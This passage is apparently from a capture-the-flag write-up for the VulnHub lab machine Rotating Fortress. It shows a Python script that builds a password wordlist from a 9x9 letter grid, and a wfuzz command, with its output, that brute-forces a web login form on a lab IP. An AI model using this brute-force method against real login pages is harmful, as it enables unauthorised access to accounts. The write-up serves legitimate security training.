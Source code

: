 Recall the hint that the password length is 9. We have a 9x9 square matrix here. Perhaps the password comprises one character from each column?

Because a 9x9 matrix has 9<sup>9</sup> or 387,420,489 combinations, it doesn't make sense to try every single combination. Instead, we are going to make an assumption—the password contains non-repeating characters from each column.

To that end, I wrote this script to generate the wordlist.

<div class="filename"><span>scramble.py</span></div>

```python
#!/usr/bin/env python

from sets import Set
from itertools import product

s1 = Set(['O','W','V','S','I','U','C','F','O'])
s2 = Set(['D','Z','Y','W','V','O','W','H','Q'])
s3 = Set(['B','Z','G','Z','O','Y','U','J','B'])
s4 = Set(['A','O','W','X','K','J','B','Y','U'])
s5 = Set(['F','J','S','Y','V','B','E','W','C'])
s6 = Set(['L','W','J','U','R','Y','X','Q','W'])
s7 = Set(['C','M','V','Y','X','Q','P','J','Y'])
s8 = Set(['U','S','N','J','V','V','U','K','C'])
s9 = Set(['K','V','P','Z','T','O','V','C','X'])

s1 -= s2
s2 -= s3
s3 -= s4
s4 -= s5
s5 -= s6
s6 -= s7
s7 -= s8
s8 -= s9
s9 -= s1

iterables = [ s1, s2, s3, s4, s5, s6, s7, s8, s9 ]

for t in product(*iterables):
  print ''.join(list(t))

```

The wordlist I generate, `passwords.txt` contains 840,000 password candidates—much more manageable than 387,420,489.

Next, I use `wfuzz` to brute-force the password field.

```
wfuzz -w passwords.txt -d "password=FUZZ" -t 100 --hh 803 http://192.168.30.129/pfychgdpvmxpupdkmcvctggquyfmgvbt/Papa_Legba/index.php
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.30.129/pfychgdpvmxpupdkmcvctggquyfmgvbt/Papa_Legba/index.php
Total requests: 840000

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

370871:  C=200     34 L	      87 W	    883 Ch	  "IHGAERMNT"

```


[1]: https://www.vulnhub.com/entry/rotating-fortress-101,248/
[2]: https://twitter.com/@c0rruptedb1t
[3]: https://www.vulnhub.com/